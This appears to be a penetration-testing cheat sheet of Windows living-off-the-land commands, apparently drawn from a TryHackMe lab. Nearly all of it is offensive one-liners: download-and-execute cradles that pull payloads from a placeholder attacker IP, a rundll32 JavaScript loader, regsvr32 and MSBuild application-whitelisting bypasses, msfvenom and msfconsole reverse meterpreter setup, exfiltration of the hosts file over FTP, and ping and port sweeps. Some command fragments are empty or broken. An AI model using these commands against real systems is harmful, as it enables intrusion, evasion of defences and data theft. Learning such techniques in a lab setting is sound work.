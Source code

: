 `(New-Object System.NetWebClient).Downloadfile('http://') | IEX`  *Fileless due to Invoke Expression*
`Invoke-WebRequest "http:///" -OutFile "kati.ps1" `
`certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe`
`bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe` 
`findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe` | Download from smb shared folder
`scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP
# Upload Files
`scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP
`(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`

# Signed Binary Proxy Execution - Indirect Command Execution
`explorer.exe /root,"C:\Windows\System32\calc.exe"` (Indirect Command Execution)
`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");`(Signed Binary Proxy Execution: Rundll32)

# Bypassing Application Whitelisting (Regsvr32- DLL)
`c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll` *First Option*
`c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll` *More advanced - Second Option*

# Run powershell with MSBuild! NO powershell.exe (Can also exec shellcode the same way)
`git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git`
`msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1`
`msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"`
`python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj`
`c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj`

# ExecutionPolicy Bypass
`powershell -ExecutionPolicy Bypass -File .\kati`

# Other machine discovery 
`1..255 | %{echo "10.0.2.$_"; ping -n 1 10.10.168.$_ | Select-String ttl}`

# Other machines Open ports
`1..1024 | %{echo ((New-Object Net.Sockets.TcpClient).Connect("10.0.2.8", $_)) "Open port on - $_"} 2>$null`
